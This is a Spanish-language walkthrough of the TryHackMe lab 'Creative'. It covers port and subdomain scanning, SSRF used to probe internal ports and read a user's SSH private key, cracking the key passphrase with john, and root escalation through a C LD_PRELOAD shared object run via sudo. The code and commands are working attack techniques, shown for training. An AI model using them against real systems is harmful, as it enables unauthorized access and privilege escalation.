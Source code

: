 ```yaml
---
title: "Creative"
description: "Exploración de una máquina y descubrimiento de subdominios con SSRF, que permite acceso a directorios internos. Se obtienen credenciales SSH mediante cracking de passphrase de clave privada y se escala privilegios abusando de LD_PRELOAD con sudo."
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/creative

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.39.180
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428180008.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.39.180
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428180208.png)

## Añadimos el nombre de domnio al etc/hosts

````
creative.thm 10.10.39.180
````

## Gobuster

````
gobuster dir -u http://creative.thm -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

## FFUZ

````
ffuf -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  -fw 6
````

Encontramos un beta.creative.thm con un SSRF

# Fase de ataque

# SSRF

Podemos hacer request al localhost

1. Capturamos la petición con Burpsuite
1. Lo mandamos al Intruder
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428185523.png)
1. Creamos un puertos.txt con todos los puertos para hacer descubrimiento de puertos interno

````
seq 65535 > ports.txt
````

4. Como la web comprueba si la url esta viva o no poniendo "dead". Metemos una opcion que diga si en la web pone dead
4. Lanzamos el ataque
4. Filtramos por lo que no tengan la palabra dead
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428185823.png)
   Podemos ver el puerto 80 y el 1337

## Directory lisiting

La web es el directorio del sistema

1. Buscamos el home del usuario
1. Sacamos su clave privada
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428190346.png)
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428191046.png)
1. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

Pide passphrase

## Crack passphrase

1. Convertimos la clave privadaa formato john

````
ssh2john id_rsa > id_rsa.john
````

2. La crackeamos con john

````
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
````

Found!
3. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

\[-\] ==pwned!==

# Privilege Escalation

Dentro de .bash_history encontramos la contraseña de saad
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428192109.png)
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegioss puede utilizar el usuario

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428192155.png)
Vemos que puede utilizar ping y hay una variable LD_PRELOAD

## LD_PRELOAD

1. Creamos un programa en C en /tmp que lanza una terminal root

````
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
````

2. Compilamos

````
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
````

Se crea un archivo shell.so
3. Ejecutamos el shell con el comando con privilegios

````
sudo LD_PRELOAD=/tmp/shell.so find
````

\[+\] ==pwned!==
